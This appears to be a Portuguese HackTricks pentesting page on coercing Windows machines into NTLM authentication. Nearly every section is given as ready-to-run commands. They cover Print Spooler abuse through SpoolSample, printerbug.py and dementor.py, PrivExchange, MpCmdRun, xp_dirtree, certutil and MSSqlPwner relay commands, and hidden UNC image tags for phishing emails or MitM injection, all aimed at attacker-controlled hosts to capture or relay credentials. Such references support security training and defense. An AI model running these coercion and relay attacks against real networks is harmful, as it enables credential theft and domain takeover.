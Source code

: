 # Forçar Autenticação Privilegiada NTLM

{{#include ../../banners/hacktricks-training.md}}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) é uma **coleção** de **gatilhos de autenticação remota** codificados em C# usando o compilador MIDL para evitar dependências de terceiros.

## Abuso do Serviço de Spooler

Se o serviço _**Print Spooler**_ estiver **ativado**, você pode usar algumas credenciais AD já conhecidas para **solicitar** ao servidor de impressão do Controlador de Domínio uma **atualização** sobre novos trabalhos de impressão e apenas dizer para **enviar a notificação para algum sistema**.\
Observe que, quando a impressora envia a notificação para sistemas arbitrários, ela precisa **se autenticar contra** esse **sistema**. Portanto, um atacante pode fazer o serviço _**Print Spooler**_ se autenticar contra um sistema arbitrário, e o serviço **usará a conta do computador** nessa autenticação.

### Encontrando Servidores Windows no domínio

Usando PowerShell, obtenha uma lista de máquinas Windows. Servidores geralmente têm prioridade, então vamos focar lá:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Encontrando serviços Spooler escutando

Usando uma versão ligeiramente modificada do @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), veja se o Serviço Spooler está escutando:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Você também pode usar rpcdump.py no Linux e procurar pelo Protocolo MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Peça ao serviço para autenticar contra um host arbitrário

Você pode compilar[ **SpoolSample daqui**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) se você estiver no Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinando com Delegação Não Restrita

Se um atacante já comprometeu um computador com [Delegação Não Restrita](unconstrained-delegation.md), o atacante pode **fazer a impressora se autenticar contra este computador**. Devido à delegação não restrita, o **TGT** da **conta de computador da impressora** será **salvo na** **memória** do computador com delegação não restrita. Como o atacante já comprometeu este host, ele poderá **recuperar este ticket** e abusar dele ([Pass the Ticket](pass-the-ticket.md)).

## Autenticação Forçada RCP

{{#ref}}
https://github.com/p0dalirius/Coercer
{{#endref}}

## PrivExchange

O ataque `PrivExchange` é resultado de uma falha encontrada na **funcionalidade `PushSubscription` do Exchange Server**. Esta funcionalidade permite que o servidor Exchange seja forçado por qualquer usuário de domínio com uma caixa de correio a se autenticar em qualquer host fornecido pelo cliente via HTTP.

Por padrão, o **serviço Exchange é executado como SYSTEM** e recebe privilégios excessivos (especificamente, possui **privilégios WriteDacl na atualização cumulativa do domínio anterior a 2019**). Esta falha pode ser explorada para permitir o **encaminhamento de informações para o LDAP e, subsequentemente, extrair o banco de dados NTDS do domínio**. Em casos onde o encaminhamento para o LDAP não é possível, esta falha ainda pode ser usada para encaminhar e autenticar em outros hosts dentro do domínio. A exploração bem-sucedida deste ataque concede acesso imediato ao Administrador de Domínio com qualquer conta de usuário de domínio autenticada.

## Dentro do Windows

Se você já estiver dentro da máquina Windows, pode forçar o Windows a se conectar a um servidor usando contas privilegiadas com:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Ou use esta outra técnica: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

É possível usar certutil.exe lolbin (binário assinado pela Microsoft) para forçar a autenticação NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## Injeção de HTML

### Via email

Se você souber o **endereço de email** do usuário que faz login em uma máquina que você deseja comprometer, você pode simplesmente enviar a ele um **email com uma imagem 1x1** como
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
e quando ele abrir, ele tentará se autenticar.

### MitM

Se você puder realizar um ataque MitM a um computador e injetar HTML em uma página que ele visualizar, você pode tentar injetar uma imagem como a seguinte na página:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Outras maneiras de forçar e phishing de autenticação NTLM


{{#ref}}
../ntlm/places-to-steal-ntlm-creds.md
{{#endref}}

## Quebrando NTLMv1

Se você conseguir capturar [desafios NTLMv1 leia aqui como quebrá-los](../ntlm/index.html#ntlmv1-attack).\
_Lembre-se de que para quebrar NTLMv1 você precisa definir o desafio do Responder como "1122334455667788"_

{{#include ../../banners/hacktricks-training.md}}
